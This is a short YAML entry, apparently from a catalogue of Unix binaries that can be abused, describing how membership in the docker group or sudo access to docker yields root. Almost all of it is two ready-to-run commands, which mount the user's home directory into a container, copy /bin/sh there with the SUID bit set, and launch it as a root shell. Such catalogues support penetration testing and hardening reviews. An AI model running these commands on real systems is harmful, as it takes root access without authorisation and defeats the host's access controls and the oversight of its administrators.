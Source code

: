 ```yaml
---
name: docker
description: |
  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
functions:
  sudo:
    - code: |
        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
  suid:
    - code: |
        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
---
```

